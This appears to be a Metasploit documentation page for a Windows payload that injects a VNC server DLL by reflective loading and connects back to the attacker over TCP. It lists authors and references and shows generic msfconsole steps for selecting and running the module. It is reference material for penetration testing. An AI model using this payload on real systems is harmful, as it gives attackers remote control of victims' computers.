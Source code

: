## VNC Server (Reflective Injection), Reverse TCP Stager (No NX or Win7)

Inject a VNC Dll via a reflective loader (staged). Connect 
back to the attacker (No NX)


## Module Name
payload/windows/vncinject/reverse_nonx_tcp

## Authors
* sf
* vlad902


## References
* https://github.com/stephenfewer/ReflectiveDLLInjection
* https://github.com/rapid7/ReflectiveDLLInjection




## Platforms
* win

## Reliability
[Normal](https://github.com/rapid7/metasploit-framework/wiki/Exploit-Ranking)

## Demo

```
msf > use payload/windows/vncinject/reverse_nonx_tcp
msf payload(reverse_nonx_tcp) > show targets
   ... a list of targets ...
msf payload(reverse_nonx_tcp) > set TARGET <target-id>
msf payload(reverse_nonx_tcp) > show options
   ... show and set options ...
msf payload(reverse_nonx_tcp) > run
```
    
    